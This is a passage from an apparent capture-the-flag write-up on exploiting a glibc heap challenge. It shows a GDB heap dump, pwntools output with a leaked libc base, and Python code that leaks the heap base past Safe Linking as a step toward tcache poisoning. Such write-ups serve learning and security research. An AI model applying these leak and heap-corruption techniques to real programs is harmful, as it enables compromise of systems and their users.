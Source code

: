 ```
0x563e88fbc6a0: 0x0000000000000000      0x0000000000000431
0x563e88fbc6b0: 0x00007fc631bf2ff0      0x00007fc631bf2ff0
0x563e88fbc6c0: 0x0000563e88fbc6a0      0x0000563e88fbc6a0
0x563e88fbc6d0: 0x0000000000000000      0x0000000000000000
gef➤  
0x563e88fbc6e0: 0x0000000000000000      0x0000000000000000
0x563e88fbc6f0: 0x0000000000000000      0x0000000000000000
0x563e88fbc700: 0x0000000000000000      0x0000000000000000
0x563e88fbc710: 0x0000000000000000      0x0000000000000000
0x563e88fbc720: 0x0000000000000000      0x0000000000000000
0x563e88fbc730: 0x0000000000000000      0x0000000000000000
0x563e88fbc740: 0x0000000000000000      0x0000000000000000
.........................................................
.........................................................
0x563e88fbcad0: 0x0000000000000430      0x0000000000000020
0x563e88fbcae0: 0x0042424242424242      0x0000000000000000
```

the output from the program 
```
b'Data:\n'
0x7fc631a0f000 // libc base
[*] running in new terminal: ['/usr/bin/gdb', '-q', './chall_patched', '57940']
[DEBUG] Created script for new terminal:
    #!/usr/bin/python3
    import os
    os.execve('/usr/bin/gdb', ['/usr/bin/gdb', '-q', './chall_patched', '57940'], os.environ)
[DEBUG] Launching a new terminal: ['/usr/bin/x-terminal-emulator', '-e', '/tmp/tmptd_0eyj7']
[+] Waiting for debugger: Done
[*] Switching to interactive mode
What do you want to do...
1 . Alloc a bloc
2 . Free a bloc
3 . Edit a bloc
4 . Show a bloc
5 - Freeze a bloc
Choice?
$  
```
libc base leaking is done we go for heap base leak.

#### Heap base leak
Well in usual ``Tcache poisining attacks`` heap base leaks is not required but since ``libc 2.32`` introduced ``Safe Linking`` heap base now is a must to be able to solve such challenges.
for more information, about ``Safe Linking``:  **https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/**

```python
    add(3, 0x20, b"X" * 8)
    add(4, 0x20, b"Z" * 8)
    add(5, 0x18, b"/bin/sh\x00")
    free(4)
    free(3)
    show(0)
    print(p.recvline())
    print(p.recvline())
    leak = u64(p.recvline().strip(b"\n").ljust(8,b"\x00"))
    heap_base = decrypt(leak) -0x2d0#- 0x6e0 for local
    print(hex(heap_base))
```
now the array that contains the heap pointer is this program is called ``heap`` . In this array index 0 and index 3 hold the same pointer for the same chunk which we are going to use to get a heap leak . first we allcoate 2 chunks with the same size , and another with any size (just to prevent from merging). now we free both of them so the tcache bin state for size 0x20 is like this 
``TCACHE[0x20] = INDEX_0_FWD points_to => INDEX_1 ``